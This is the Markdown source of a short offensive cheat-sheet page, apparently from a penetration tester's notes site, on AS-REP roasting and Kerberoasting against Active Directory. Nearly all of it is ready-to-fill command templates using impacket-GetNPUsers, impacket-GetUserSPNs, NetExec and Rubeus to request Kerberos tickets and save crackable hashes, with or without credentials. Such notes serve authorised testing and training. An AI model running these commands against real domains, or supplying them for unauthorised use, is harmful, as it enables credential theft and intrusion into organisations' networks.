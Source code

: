 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["as_rep roasting", "impacket", "active directory", "ad", "domain controller", "Windows", "kerberoasting", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 active >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC>
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <TARGET> <DOMAIN>/<USER>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <TARGET> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 active >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Fix time skew
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC_IP> <DOMAIN>/
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc ldap <DC_IP> -u <USER> -p '<PASSWORD>' --kerberoasting kerberoast_hashes.txt
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}
